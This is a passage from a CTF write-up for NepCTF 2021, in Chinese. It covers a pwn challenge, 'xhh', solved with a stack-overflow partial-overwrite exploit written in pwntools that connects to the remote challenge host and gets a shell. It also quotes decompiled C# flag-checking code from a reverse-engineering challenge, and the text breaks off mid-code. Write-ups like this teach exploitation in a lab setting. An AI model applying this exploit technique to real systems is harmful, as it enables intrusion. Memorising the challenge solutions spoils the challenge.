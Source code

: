 

---

## Pwn

### xhh

![20210322132920](nepctf2021/20210322132920.png)

栈溢出，填充0x10，然后找到system cat flag函数，据地址随机化后字节不变，小端更改地址，当图片刷到小蝌蚪的图案便getshell

exp:

```
from pwn import *
context.arch = 'amd64'
context.log_level='debug'

#p = process('./xhh')
p = remote('node2.hackingfor.fun',35402 )
#p = remote('127.0.0.1',12345)

payload = p64(0) + p64(1) + b"\xE1"

p.send(payload)

p.interactive()
```

---

## Re

### hardcsharp

```c#
private static void Main(string[] args)
{
    AesClass class2 = new AesClass();
    string key = "";
    string strB = "1Umgm5LG6lNPyRCd0LktJhJtyBN7ivpq+EKGmTAcXUM+0ikYZL4h4QTHGqH/3Wh0";
    byte[] buffer = new byte[] { 
        0x51, 0x52, 0x57, 0x51, 0x52, 0x57, 0x44, 0x5c, 0x5e, 0x56, 0x5d, 0x12, 0x12, 0x12, 0x12, 0x12,
        0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12, 0x12
    };
    Console.WriteLine("Welcome to nepnep csharp test! plz input the magical code:");
    string str = Console.ReadLine();
    if (str.Length != 0x25)
    {
        Console.WriteLine("Nope!");
        Console.ReadKey();
    }
    else if ((str.Substring(0, 4) != "Nep{") || (str[0x24] != '}'))
```